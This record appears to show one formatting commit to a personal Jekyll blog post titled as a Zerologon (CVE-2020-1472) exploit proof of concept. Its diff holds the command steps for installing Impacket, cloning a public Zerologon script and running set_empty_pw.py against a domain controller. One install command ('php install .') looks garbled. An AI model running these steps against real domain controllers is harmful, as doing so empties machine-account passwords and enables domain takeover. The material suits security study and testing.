

Before and after one commit to hum4nG0D/hum4nG0D.github.io, a Jekyll site: the page built from _posts/2020-11-11-CVE-2020-1472-Zerologon-Exploit-POC.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Update 2020-11-11-CVE-2020-1472-Zerologon-Exploit-POC.md

````diff
--- a/_posts/2020-11-11-CVE-2020-1472-Zerologon-Exploit-POC.md
+++ b/_posts/2020-11-11-CVE-2020-1472-Zerologon-Exploit-POC.md
@@ -1,19 +1,18 @@
-Yet another Zerologon Exploit POC. This time we will be exploiting a Domain Controller.
+Yet another Zerologon Exploit POC. We will be exploiting a vulnerable Domain Controller.
 
 ## Impacket 0.9.22
----
 
 At the time of this writing, we need to use an updated version of Impacket 0.9.22 or newer for this exploit to work. The current stable version of Impaket is 0.9.21.
 
 ![Current impacket stable version](/assets/images/zerologon_poc/impacket0921.png)
 
-But before you install a new Impacket, you might want to create a vm snapshot of it before things go completely wrong.
+But before you install a new Impacket, you might want to create a vm snapshot before things go completely wrong.
 
 After that remove any existing Impacket installation with the following command:
 
 ```
 
-apt remove --purge impacket-scripts python3-impacket
+> apt remove --purge impacket-scripts python3-impacket
 
 ```
 
@@ -22,25 +21,25 @@
 ![Impacket 0.9.22](/assets/images/zerologon_poc/impacket0922.png)
 
 ```
-git clone https://github.com/SecureAuthCorp/impacket.git
 
-cd impacket
+> git clone https://github.com/SecureAuthCorp/impacket.git
 
-php install .
+> cd impacket
+
+> php install .
 
 ```
 
 
 ## Exploitaion
----
 
 We will be using a script from [Risksense](https://github.com/risksense/zerologon "risksense/zerologon")
 
 ```
 
-git clone https://github.com/risksense/zerologon.git
+> git clone https://github.com/risksense/zerologon.git
 
-cd zerologon
+> cd zerologon
 
 ```
 
@@ -48,7 +47,7 @@
 
 ```python
 
-python3 set_empty_pw.py <DC-NAME> <ip-address>
+> python3 set_empty_pw.py <DC-NAME> <ip-address>
 
 ```
 
````
Also changed, not shown: other parts of _posts/2020-11-11-CVE-2020-1472-Zerologon-Exploit-POC.md (+2 -3 lines).
